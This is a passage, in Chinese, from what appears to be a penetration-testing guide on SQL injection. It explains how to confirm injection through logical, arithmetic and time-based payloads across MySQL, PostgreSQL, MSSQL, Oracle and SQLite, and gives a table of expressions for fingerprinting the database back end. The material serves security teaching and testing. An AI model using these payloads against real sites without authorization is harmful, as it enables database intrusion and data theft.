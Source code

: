 ```sql

HQL
HQL does not support comments
```
### 确认逻辑操作

确认 SQL 注入漏洞的可靠方法涉及执行 **逻辑操作** 并观察预期结果。例如，GET 参数如 `?username=Peter` 在修改为 `?username=Peter' or '1'='1` 时产生相同内容，表明存在 SQL 注入漏洞。

同样，应用 **数学操作** 作为有效的确认技术。例如，如果访问 `?id=1` 和 `?id=2-1` 产生相同结果，这表明存在 SQL 注入。

演示逻辑操作确认的示例：
```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```
这个词汇表是为了尝试**确认SQL注入**而创建的：

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### 通过时间确认

在某些情况下，你**不会注意到任何变化**在你正在测试的页面上。因此，一个好的方法来**发现盲注入**是让数据库执行操作，并对页面加载所需的**时间产生影响**。\
因此，我们将在SQL查询中连接一个需要很长时间才能完成的操作：
```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
在某些情况下，**sleep 函数将不被允许**。然后，您可以使查询**执行复杂操作**，这将需要几秒钟。_这些技术的示例将在每种技术上单独评论（如果有的话）_。

### 识别后端

识别后端的最佳方法是尝试执行不同后端的函数。您可以使用上一节的_**sleep**_ **函数**或这些函数（来自 [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification) 的表）：
```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
```